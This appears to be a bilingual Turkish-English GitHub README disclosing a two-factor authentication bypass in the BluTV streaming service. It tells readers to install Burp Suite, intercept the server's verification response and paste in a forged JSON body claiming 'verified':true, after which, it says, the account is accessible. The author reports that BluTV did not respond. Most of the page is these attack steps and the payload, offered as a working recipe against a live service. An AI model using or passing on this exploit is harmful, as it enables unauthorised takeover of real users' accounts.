 # <img src="blutv.png" width="45" align="left"> Blutv-Bypass
BluTV, 2015 yılında Doğan Holding çatısı altında kurulan, gerçek zamanlı veri akışı ve seç-izle aracılığıyla internet üzerinden hizmet veren bir medya sağlayıcısıdır.

## TURKISH
Kullanıcının kullandığı pini bilmeden "Response manipulation" taktiğiyle server-side olan cevabı client-side olarak editleyerek 2-factor'u geçtiğim bir güvenlik açığı.

Yapmanız Gerekenler
- Burp'u indirin https://portswigger.net/burp
- Gifteki adımları takip edin ve bu kodu değiştirdiğiniz koda yapıştırın "{"verified":true,"_status":200,"_status_text":"OK","status":200}"
- Artık hesaba erişebilirsiniz
  
BluTV ile iletişime geçtim fakat herhangi bir dönüş alamadım eğer BluTV'de çalışıyorsanız github sayfamdaki mailden ulaşabilirsiniz.

## ENGLISH
It's a vulnerability where I bypass the 2-factor by editing the server-side response as client-side with the "Response manipulation" tactic, without knowing the user's pin.

What you need to do
- Download Burp https://portswigger.net/burp
- Follow the steps in the gift and paste this code into the code you changed "{"verified":true,"_status":200,"_status_text":"OK","status":200}"
- You can now access the account

![blutv](https://github.com/Erenlancaster/Blutv-Bypass/assets/50498704/af070665-4381-4531-bed6-2d71f71833e3)
